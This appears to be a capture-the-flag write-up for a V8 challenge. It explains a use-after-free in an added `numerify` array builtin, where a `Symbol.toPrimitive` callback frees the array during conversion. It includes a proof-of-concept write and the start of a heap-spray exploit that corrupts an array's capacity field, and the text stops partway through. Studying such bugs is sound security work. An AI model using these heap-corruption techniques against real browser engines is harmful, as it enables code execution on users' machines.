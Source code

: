 ```diff
+  }
+
+  return *args.receiver();
+}
```

The most important change is shown above; a new array builtin has been introduced. The idea behind is that we can convert non-numeric elements of the array to a numeric value, if possible (ie. `["123", 1].numerify()` returns `[123, 1]`).

The high level overview of what the function does is as follows:

- Store the length of the target array into `arr_len` which will later be used as a upper bound for the loop
- Loop over each element
  - Skip the element if its a hole
  - Skip the element if its not possible to convert to a number
- Replace the element with its small integer representation

The bug here is that `Object::ToNumber` can call javascript callbacks if the element has one, meaning that if the callback shrinks/frees the backing buffer, it will do a out-of-bounds/use-after-free write of the callback return value.

```js
let a = new Array(10);

let evil = { [Symbol.toPrimitive]() {
    a = undefined;
    return 0xdeadbeef;
}}
a[a.length - 1] = evil;
a.numerify();
```

The code shown above will write the value `0xdeadbeef` at the last index of the array `a` after it has been freed, effectively performing a use-after-free.

# Exploitation

With the UAF we can target backing buffer capacity field to extend it outside of its actual bounds. To do that we will have to write a callback that, first, frees the victim array backing buffer, then sprays the heap with a bunch of arrays and finally returns the value we want to write to the capacity field. In the exploit that looks like the following:

```js
let evil = { [Symbol.toPrimitive]() {
    a = undefined;
    for (let j = 0; j < SPRAY_COUNT; j++) {
        let arr = new Array(ARRAY_SIZE_TWO).fill(FILL_THING);
        arr[0] = j;
        sprayed.push(arr);
    }
    return 0x200;
}}
a[ARRAY_SIZE - 1] = evil;
a.numerify();
```

